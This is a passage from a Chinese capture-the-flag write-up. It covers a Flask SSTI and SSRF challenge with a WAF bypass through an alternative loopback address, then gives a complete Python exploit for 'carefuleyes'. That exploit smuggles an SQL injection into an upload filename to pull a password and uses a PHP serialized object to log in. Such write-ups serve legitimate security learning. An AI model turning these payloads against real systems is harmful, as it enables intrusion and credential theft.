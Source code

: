 ```python
{{ctf.__code__.co_consts}}:
可知：

hint = 'the admin route :h4rdt0f1nd_9792uagcaca00qjaf<!-- port : 5000 -->'
trick = 'too young too simple'
```

提示说5000端口有另一个服务。但是当我们尝试访问`127.0.0.1`时发现有waf。梅开二度，我们可以通过`__code__`来大体看到waf规则：

{% asset_img upload_f4abe482d6ed5160ea58f93868f0cce4.png Result %}

0.0被过滤了。冷知识时间：本地回环地址为`127.0.0.0/8`，这个掩码`8`是不是看起来不太直观？我们换个样子试试：`255.0.0.0`。

所以访问`127.114.51.4:5000`，看到内层的应用是一个裸的ssti，flag在app.config里。然而ssrf的path在外层进行了过滤(`waf_path`)。很可惜，`waf_path.__code__.co_consts`由于长度问题被过滤了，过滤规则只能通过盲猜。

经过一系列尝试，在`url_for.__globals__.current_app`找到了app对象。

## carefuleyes

整体上就是Hitcon 2016 babytrick梅开二度，随便找一个注入点就行了

rename.php中有一个自注入，很刻意

我 注 我 自 己

```python
from requests import session
from phpserialize import *


ses = session()
# host = 'http://124.71.191.175'
host = 'http://202.182.118.236'
# host = 'http://localhost'

file = 'frankli\' and 1=0 union select 1,`password` as filename,3,4,5 from user where username=\'XM\' #.txt'
ses.post(host + '/upload.php', files={
    'upfile': (file, 'b')
}).text
passwd = ses.get(host + '/rename.php', params={
    'oldname': file[:-4],
    'newname': 'asdf'
}).text
passwd = passwd[14:passwd.find('will be changed') - 1]


class XCTFGG:
    private_method = 'login'
    private_args = ['XM', passwd]


print(ses.post(host + '/upload.php', files={
    'upfile': ('frank.txt', 'c')
}, params={
    'data': serialize(XCTFGG())
}).text)
```

## simple flask 与 XWiki

略。simple flask抢了个一血，挺开心的（
